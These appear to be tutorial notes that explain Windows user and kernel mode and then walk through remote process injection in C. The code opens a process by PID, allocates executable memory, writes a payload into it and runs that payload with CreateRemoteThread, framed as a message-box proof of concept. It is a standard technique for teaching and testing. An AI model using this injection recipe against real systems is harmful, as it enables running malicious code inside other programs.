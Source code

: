 

Windows kernel will control all programs and processes and bridge all software and hardware interactions.
An aplication cannot interact with the kernel or modify physical hardware and requires an interface.
A windows processor has auser and kernel mode, the processor will switch between modes depending on access and request.

User mode						Kernel Mode
No direct hardware access				Direct hardware access
Creates a process in a private virtual address space	Ran in a single shared virtual address space
Access to "owned memory locations"			Access to entire physical memory

										
										
USER APPLICATION -> API (WIN32 API) ----switching_point---> system calls -> Kernel:(Physical Memory | Hardware)

We will inject a message box into our local process to demonstrate a proof-of-concept to interact with memory.

The steps to write a message box to memory are outlined below,

    Allocate local process memory for the message box.
    Write/copy the message box to allocated memory.
    Execute the message box from local process memory.

At step one, we can use OpenProcess to obtain the handle of the specified process.

HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);

At step two, we can use VirtualAllocEx to allocate a region of memory with the payload buffer.

remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof payload, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);

At step three, we can use WriteProcessMemory to write the payload to the allocated region of memory.

WriteProcessMemory(
	hProcess, // Opened target process
	remoteBuffer, // Allocated memory region
	payload, // Data to write
	sizeof payload, // byte size of data
	NULL
);

At step four, we can use CreateRemoteThread to execute our payload from memory.

remoteThread = CreateRemoteThread(
	hProcess, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
); 

